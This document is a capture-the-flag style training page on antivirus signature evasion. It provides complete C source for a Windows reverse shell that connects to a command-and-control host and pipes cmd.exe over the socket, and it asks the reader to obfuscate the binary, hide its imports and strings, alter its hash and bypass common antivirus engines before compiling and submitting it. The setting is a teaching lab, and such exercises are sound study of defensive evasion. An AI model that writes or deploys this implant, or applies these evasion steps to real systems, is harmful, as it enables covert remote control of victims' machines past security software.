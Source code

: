# Putting It All Together: Signature Evasion

As reiterated throughout both this room and the **Obfuscation Principles** section, no single method will be 100% effective or reliable.

To create a more effective and reliable methodology, combine several of the methods covered in this room and the previous one.

When determining the order of obfuscation, consider the impact of each method. For example, is it easier to obfuscate an already broken class, or to break a class that is already obfuscated?

> **Note:** In general, you should run automated or less specific obfuscation methods *after* specific signature breaking. However, you will not need those techniques for this challenge.

---

## Challenge Instructions

Taking these notes into consideration, modify the provided binary to meet the specifications below:

- **No suspicious library calls present**
- **No leaked function or variable names**
- **File hash is different than the original hash**
- **Binary bypasses common anti-virus engines**

> **Note:** When considering library calls and leaked functions, be conscious of the IAT table and strings in your binary.

---

## Provided Source Code

```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
    SOCKET mySocket;
    struct sockaddr_in addr;
    WSADATA version;
    WSAStartup(MAKEWORD(2,2), &version);
    mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
    addr.sin_family = AF_INET;

    addr.sin_addr.s_addr = inet_addr(C2Server);
    addr.sin_port = htons(C2Port);

    if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
        closesocket(mySocket);
        WSACleanup();
    } else {
        printf("Connected to %s:%d\n", C2Server, C2Port);

        char Process[] = "cmd.exe";
        STARTUPINFO sinfo;
        PROCESS_INFORMATION pinfo;
        memset(&sinfo, 0, sizeof(sinfo));
        sinfo.cb = sizeof(sinfo);
        sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
        sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
        CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

        printf("Process Created %lu\n", pinfo.dwProcessId);

        WaitForSingleObject(pinfo.hProcess, INFINITE);
        CloseHandle(pinfo.hProcess);
        CloseHandle(pinfo.hThread);
    }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
}
```

---

## Compilation Instructions

Once sufficiently obfuscated, compile the payload on the AttackBox or VM of your choice using GCC or another C compiler. The file name must be saved as `challenge.exe`. Once compiled, submit the executable to the webserver at `http://MACHINE_IP/`. If your payload satisfies the requirements listed, it will be run and a beacon will be sent to the provided server IP and port.

> **Important:** Change the `C2Server` and `C2Port` variables in the provided payload or this challenge will not work and you will not receive a shell back.

> **Note:** When compiling with GCC, add compiler options for winsock2 and ws2tcpip. These libraries can be included using the compiler flags `-lwsock32` and `-lws2_32`.

---

If you are still stuck, a walkthrough of the solution is provided below.